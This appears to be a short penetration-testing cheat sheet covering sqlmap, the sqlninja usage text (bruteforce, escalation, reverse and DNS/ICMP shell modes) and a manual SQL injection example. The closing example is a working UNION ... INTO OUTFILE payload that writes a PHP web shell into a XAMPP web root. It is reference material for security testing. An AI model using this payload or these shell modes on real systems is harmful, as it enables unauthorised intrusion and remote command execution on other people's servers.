 Run with the `-r` switch

```
sqlmap -r /tmp/burp-post.txt
```

## SQLNinja

Open Docs

```
firefox file:///usr/share/doc/sqlninja/sqlninja-howto.html
```

### Flags

```
Usage: /usr/bin/sqlninja
-m <mode> : Required. Available modes are:
    t/test - test whether the injection is working
    f/fingerprint - fingerprint user, xp_cmdshell and more
    b/bruteforce - bruteforce sa account
    e/escalation - add user to sysadmin server role
    x/resurrectxp - try to recreate xp_cmdshell
    u/upload - upload a .scr file
    s/dirshell - start a direct shell
    k/backscan - look for an open outbound port
    r/revshell - start a reverse shell
    d/dnstunnel - attempt a dns tunneled shell
    i/icmpshell - start a reverse ICMP shell
    c/sqlcmd - issue a 'blind' OS command
    m/metasploit - wrapper to Metasploit stagers
-f <file> : configuration file (default: sqlninja.conf)
-p <password> : sa password
-w <wordlist> : wordlist to use in bruteforce mode (dictionary method only)
-g : generate debug script and exit (only valid in upload mode)
-v : verbose output
-d <mode> : activate debug
    1 - print each injected command
    2 - print each raw HTTP request
    3 - print each raw HTTP response
    all - all of the above
```

## Manual SQLi Example

An example of making a php backdoor in Xampp server running php

```
php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```